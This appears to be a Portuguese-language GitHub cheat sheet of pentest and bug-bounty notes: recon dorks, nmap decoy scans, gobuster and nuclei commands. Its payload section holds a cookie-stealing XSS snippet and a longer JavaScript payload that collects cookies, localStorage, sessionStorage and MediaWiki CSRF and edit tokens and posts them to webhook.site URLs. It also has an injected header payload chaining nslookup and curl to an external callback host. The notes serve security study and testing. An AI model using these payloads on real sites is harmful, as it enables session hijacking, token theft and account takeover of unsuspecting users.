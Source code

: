 # Anotações Importantes de Segurança

Um compilado de comandos, payloads e recursos úteis para estudos e testes de segurança.

##  Reconhecimento & Enumeração

Comandos e técnicas para coletar informações sobre um alvo.

### Dorks & Descoberta
* **Encontrar Programas de VDP (Vulnerability Disclosure Program):**
    ```
    "Vulnerability Disclosure Program" VDP "site:uk -bugbount -hackerone -intigriti -bugcrowd -yeswehack"
    ```
* **Repositório de Google Dorks:**
    * [Dorks Faisalahmed](https://dorks.faisalahmed.me/)

### Escaneamento de Rede e Subdomínios
* **Nmap - Scan DNS para vazamento de informações:**
    ```bash
    # Verifica o servidor DNS (porta 53/UDP) por possíveis exposições de dados sensíveis.
    nmap -sU -p 53 --script=dns-nsid 10.129.2.48
    ```
* **Nmap - Scan Avançado:**
    ```bash
    # Scan com detecção de versão (-sV), usando decoys (D RND:2), múltiplos tipos de scan e user-agent customizado.
    nmap 10.129.4.84 -sV -D RND:2 -Pn -sS -sU --max-retries=2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-
    ```
* **Descoberta de Diretórios com Gobuster:**
    ```bash
    # Força bruta de diretórios com headers customizados de Host e Cookie.
    gobuster dir -u https://teste.com -w /usr/share/wordlists/dirb/common.txt  -t 50 -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc;' -k -x html,php,js,aspx,bat,txt,zip
    ```

### Extensões úteis para Browser
* `dotgit`
* `Wappalyzer`
* `Shodan`
* `DNSlytics`


## Análise de Vulnerabilidades

Ferramentas para escanear ativamente por falhas de segurança conhecidas.

* **Instalação do ZAP (Zed Attack Proxy):**
    ```bash
    # Uma ótima ferramenta para scan de aplicações web.
    sudo apt install zaproxy
    ```
* **Nuclei - Scan de CVEs em subdomínios:**
    ```bash
    # Encontra subdomínios, verifica quais estão ativos e roda um template específico do Nuclei.
    subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/(CVE)/CVE-2025-0133.yaml
    ```
* **Nuclei - Scan geral de CVEs:**
    ```bash
    nuclei -t cves/ -u [http://alvo.com] -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    ```
* **Nuclei - Scan focado em tecnologia (ex: Moodle):**
    ```bash
    nuclei -u [https://alvo.com]) -tags moodle
    ```


## Payloads & Exploração

Snippets de código para explorar vulnerabilidades como XSS, SSRF, etc.

### Cross-Site Scripting (XSS)

* **Payload XSS Simples para Roubo de Cookies:**
    ```html
    <img src="x" onerror="fetch('[https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605](https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605)', {method:'POST', body:'<cookie>='+document.cookie})">
    ```

* **Payload XSS Avançado para Exfiltração de Dados:**
    * Este script captura cookies, `localStorage`, `sessionStorage`, tokens específicos de MediaWiki e informações do usuário, enviando tudo para um webhook.
    ```javascript
    var data = {};
    data.cookie = document.cookie;
    data.localStorage = {};
    data.sessionStorage = {};
    data.mediawikiTokens = {};
    data.userInfo = {};

    // Capturar todos os dados do localStorage
    for(var i=0; i<localStorage.length; i++) {
        var key = localStorage.key(i);
        data.localStorage[key] = localStorage.getItem(key);
    }

    // Capturar todos os dados do sessionStorage
    for(var i=0; i<sessionStorage.length; i++) {
        var key = sessionStorage.key(i);
        data.sessionStorage[key] = sessionStorage.getItem(key);
    }

    // Tenta obter tokens do MediaWiki especificamente
    try {
        if(typeof mw != 'undefined' && mw.user && mw.user.tokens) {
            data.mediawikiTokens = {
                editToken: mw.user.tokens.get('editToken'),
                csrfToken: mw.user.tokens.get('csrfToken'),
                watchToken: mw.user.tokens.get('watchToken')
            };
        }
    } catch(e) {}

    // Informações do usuário
    try {
        if(typeof mw != 'undefined' && mw.config) {
            data.userInfo = {
                userName: mw.config.get('wgUserName'),
                userId: mw.config.get('wgUserId'),
                pageName: mw.config.get('wgPageName'),
                namespace: mw.config.get('wgCanonicalNamespace'),
                revisionId: mw.config.get('wgRevisionId'),
                articleId: mw.config.get('wgArticleId')
            };
        }
    } catch(e) {}

    // Envia os dados coletados para o webhook
    fetch('[https://webhook.site/ce0f8999-b412-490d-aa38-f94652be63b0](https://webhook.site/ce0f8999-b412-490d-aa38-f94652be63b0)', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(data)
    });
    ```

### Out-of-Band (OOB)

* **Payload OOB para testar em Headers (Blind SSRF, etc):**
    * Tenta forçar uma resolução DNS e uma requisição HTTP para um domínio externo. Útil para injetar em cabeçalhos como `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
    ```bash
    # :r: é um placeholder para o valor que será injetado
    :r:nslookup -q=cname hitvibmacavit642a1.bxss.me|curl hitvibmacav
    ```

## Ferramentas & Recursos Adicionais

Links para repositórios e ferramentas úteis.

* **SHCheck - Shell/Header Vulnerability Checker:**
    * [Repositório no GitHub](https://github.com/santoru/shcheck)
    * *Nota: Verificar se o alvo possui alguns headers vulneráveis.*
